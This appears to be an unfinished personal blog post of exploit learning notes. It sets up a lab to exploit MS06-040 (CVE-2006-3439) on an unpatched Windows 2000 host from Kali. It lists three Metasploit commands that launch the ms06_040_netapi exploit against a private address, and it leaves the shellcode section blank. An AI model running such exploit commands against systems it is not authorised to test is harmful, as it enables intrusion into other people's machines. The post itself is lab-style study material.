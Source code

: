 ```yaml
---
title: Exploit Learning Notes 005 Metasploit Make ShellCode
description: Metasploit crafting ShellCode
date: 2020-10-20 22:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ShellCode
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-005-metasploit-make-shellcode/)

... Unfinished business (Metasploit old version is really hard to find) ...

## Intrusion into Windows experiment

### Introduction to the experiment

> MS06-040, CVE-2006-3439

| Recommended Environment | Remarks |
|-|-|-|
| Attacking machine system | Kali Linux 2021.1 | |
| Target host system | Windows 2000 SP4 | |
| Patch version | KB921883 | Make sure the target host does not have the patch installed |
| network environment | can ping each other | ensure no firewall interference |

### Command line interface vulnerability testing

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## Make ShellCode with MetaSploit

... To be continued...
